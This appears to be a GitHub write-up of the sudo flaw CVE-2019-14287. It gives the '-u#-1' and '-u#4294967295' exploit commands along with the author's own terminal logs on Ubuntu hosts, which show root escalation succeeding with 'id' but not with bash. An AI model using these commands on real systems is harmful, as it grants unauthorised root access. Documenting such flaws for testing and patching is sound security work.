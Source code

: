 ## CVE2019-14287 (sudo < 1.8.28)
Sudo Flaw Linux Users Can Run Commands As Root Even When They're Restricted

## Sudo Vulnerabilty Descriptions
```
The vulnerability in a sudo security policy bypass issue that could allow a malicious user or a program to
execute arbitrary commands as root on a targeted Linux system even when the "sudoers configuration" explicitly
disallows the root access.
```
```
So, even if a user has been restricted to run a specific, or any, command as root, the vulnerability could allow the user to
bypass this security policy and take complete control over the system.
```
## Who Discovered this ?
```
An Apple Information Security Researcher by Joe Vennix
```
## How to Identify this Attack ?
If you have Permission to see sudoers file then,
```
if /etc/sudoers Conf file Says, 
bob    (ALL, !root) /usr/bin/vi or,
bob    (ALL, !root) /usr/bin/id 
Then user bob can run vi with any other user except root.
```
If you don't have Permission then you can Identify by typing "sudo -l"

Note: User must be of sudoers group.
```
lucy@ubuntu:/home/debian$ sudo -l
Matching Defaults entries for lucy on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on this host:
    (ALL, !root) /usr/bin/bash
```

## How to Exploit this issue ?
```
The flaw can be exploited by an attacker to run commands as root by specifying the user ID "-1" or "4294967295."  
```
Run the below command as 
```
sudo -u#-1 bash 
or,
sudo -u#4294967295 bash 
```
## Didn't work, When I used /usr/bin/bash to execute Accept root

```
lucy    ALL=(ALL, !root)        /usr/bin/bash
```

```
Sudo version 1.8.3p1
OS: Ubuntu 12.04.5 LTS \n \l
Kernel: Linux ubuntu 3.13.0-117-generic
```
```
lucy@ubuntu:/home/debian$ whoami
lucy
lucy@ubuntu:/home/debian$ groups
lucy
lucy@ubuntu:/home/debian$ sudo whoami
Sorry, user lucy is not allowed to execute '/usr/bin/whoami' as root on ubuntu.
lucy@ubuntu:/home/debian$ sudo bash
Sorry, user lucy is not allowed to execute '/bin/bash' as root on ubuntu.
lucy@ubuntu:/home/debian$ sudo -l
Matching Defaults entries for lucy on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on this host:
    (ALL, !root) /usr/bin/bash
lucy@ubuntu:/home/debian$ sudo bash
Sorry, user lucy is not allowed to execute '/bin/bash' as root on ubuntu.
lucy@ubuntu:/home/debian$ sudo -u#4294967295 bash 
Sorry, user lucy is not allowed to execute '/bin/bash' as #4294967295 on ubuntu.
lucy@ubuntu:/home/debian$ sudo -u#-1 bash 
Sorry, user lucy is not allowed to execute '/bin/bash' as #-1 on ubuntu.
```
## This also didn't work
```
lucy@ubuntu:/home/debian$ sudo -u#4294967295 bash -u
[sudo] password for lucy: 
Sorry, user lucy is not allowed to execute '/bin/bash -u' as #4294967295 on ubuntu.
lucy@ubuntu:/home/debian$ 
lucy@ubuntu:/home/debian$ sudo -u#-1 bash -u
[sudo] password for lucy: 
Sorry, user lucy is not allowed to execute '/bin/bash -u' as #-1 on ubuntu.
```
## But it Works when is used this "/usr/bin/id"
```
lucy    ALL=(ALL, !root)        /usr/bin/id
```

```
debian@ubuntu:~$ su lucy
Password: 
lucy@ubuntu:/home/debian$ 
lucy@ubuntu:/home/debian$ whoami
lucy
lucy@ubuntu:/home/debian$ 
lucy@ubuntu:/home/debian$ groups
lucy
lucy@ubuntu:/home/debian$ sudo whoami
[sudo] password for lucy: 
Sorry, user lucy is not allowed to execute '/usr/bin/whoami' as root on ubuntu.
lucy@ubuntu:/home/debian$ sudo id
[sudo] password for lucy: 
Sorry, user lucy is not allowed to execute '/usr/bin/id' as root on ubuntu
lucy@ubuntu:/home/debian$ id
uid=1001(lucy) gid=1001(lucy) groups=1001(lucy)
lucy@ubuntu:/home/debian$ sudo id
[sudo] password for lucy: 
Sorry, user lucy is not allowed to execute '/usr/bin/id' as root on ubuntu.
lucy@ubuntu:/home/debian$ sudo whoami
[sudo] password for lucy: 
Sorry, user lucy is not allowed to execute '/usr/bin/whoami' as root on ubuntu.
lucy@ubuntu:/home/debian$ sudo -l
[sudo] password for lucy: 
Matching Defaults entries for lucy on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on this host:
    (ALL, !root) /usr/bin/id
lucy@ubuntu:/home/debian$ sudo -u#-1 id
[sudo] password for lucy: 
uid=1001(lucy) gid=0(root) euid=0(root) groups=0(root)
```
## Let's check another OS with latest sudo versions.
```
Sudo version 1.8.16
OS: Ubuntu 16.04.6 LTS \n \l
Kernel: Linux blak-off 4.15.0-65-generic
```

## This also didn't work, when I used " /usr/bin/bash"
```
john    ALL=(ALL, !root)        /usr/bin/bash
```

```
blak@blak-off:~$ su john
Password: 
john@blak-off:/home/blak$ whoami
john
john@blak-off:/home/blak$ groups
john
john@blak-off:/home/blak$ sudo whoami
[sudo] password for john: 
Sorry, user john is not allowed to execute '/usr/bin/whoami' as root on blak-off.
john@blak-off:/home/blak$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on blak-off:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on blak-off:
    (ALL, !root) /usr/bin/bash
john@blak-off:/home/blak$ sudo bash
Sorry, user john is not allowed to execute '/bin/bash' as root on blak-off.
john@blak-off:/home/blak$ sudo -u#4294967295 bash
Sorry, user john is not allowed to execute '/bin/bash' as #4294967295 on blak-off.
john@blak-off:/home/blak$ sudo -u#-1 bash
Sorry, user john is not allowed to execute '/bin/bash' as #-1 on blak-off.
john@blak-off:/home/blak$ sudo -u#-1 bash -u
Sorry, user john is not allowed to execute '/bin/bash -u' as #-1 on blak-off.
```
## But it works when I used "/usr/bin/id"
```
john    ALL=(ALL, !root) /usr/bin/id
```

```
blak@blak-off:~$ su john
Password: 
john@blak-off:/home/blak$ 
john@blak-off:/home/blak$ whoami
john
john@blak-off:/home/blak$ groups
john
john@blak-off:/home/blak$ sudo id
[sudo] password for john: 
Sorry, user john is not allowed to execute '/usr/bin/id' as root on blak-off.
john@blak-off:/home/blak$ sudo whoami
[sudo] password for john: 
Sorry, user john is not allowed to execute '/usr/bin/whoami' as root on blak-off.
john@blak-off:/home/blak$ 
john@blak-off:/home/blak$ id
uid=1001(john) gid=1001(john) groups=1001(john)
john@blak-off:/home/blak$ 
john@blak-off:/home/blak$ sudo -u#4294967295 id
[sudo] password for john: 
uid=0(root) gid=1001(john) groups=1001(john)
john@blak-off:/home/blak$ 
```
## It Happens the same with sudo 1.8.27 version. Bash didnt work but 'id','vi', etc work ..!!

```
According to my test I'm able to execute all commands which is restricted to run as root accept bash.
```
```
Sudo version 1.8.27
OS: Ubuntu 16.04.6 LTS \n \l
Kernel: Linux blak-off 4.15.0-65-generic
```

## Exploit Type
```
Privilege Escalation 
```
## References:
https://thehackernews.com/2019/10/linux-sudo-run-as-root-flaw.html
